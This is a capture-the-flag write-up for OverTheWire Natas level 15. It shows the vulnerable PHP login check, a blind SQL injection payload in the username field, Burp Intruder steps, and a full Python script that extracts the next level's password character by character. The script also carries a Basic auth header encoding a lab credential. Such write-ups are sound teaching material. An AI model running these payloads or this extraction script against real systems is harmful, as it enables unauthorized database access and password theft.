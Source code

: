 # Level 15
Pushing things further, this level deals with Blind SQL injection. We'll make a python script as well.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    // If there is no error, we will get one of two response, depending on user input
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again <span id=yellow>unsanitized</span> user input is inserted into the query.<br/>
 - Although no output is displayed after query execution, we can make use of <span id=green>blind SQL injection</span>.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg.<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with `username` and `password` column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is log from local linux lab to make use of `ascii` and `substring` functions to smuggle the password.<br/>


```sql
# Testing query in Lab
# Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

# We compare first character of author name with ascii code  
-- Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

# Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

Now we build our payload accordingly.<br/>
<span id=green>  Our payload -></span> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`<br/>
Here, we are checking if the first character of password of user <u>natas16</u> has ascii code of 65 .i.e. its A<br/>

Below is screenshot of our failed attempt in Burp. (Note the response _user doesn't exist_)

![Level 15 solution](./images/Level15_solution.png)

Below is a successfull attempt, So our password begins with word 'W', ascii code 87. (Note the response _user exists_)

![Level 15.1 solution](./images/Level15.1_solution.png)

Instead of manually searching for password char by char, we use <span id=green>Burp intruder</span>.<br/>
We manually change `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings for the same are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below. Now we start attack!.
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of discovering the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level.<br/><br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/><br/>
This script does blind mysql injection till password is revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4 # Show have used auth, but it works for now.
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 proxy = {'http': 'http://localhost:8080'}
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>
I Added a cool effect that displays the found characters and also searches for next character.

Below is a sample run of the script

<img src="https://grey-fish.github.io/Natas/images/natas15.gif">

Thats all folks!

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
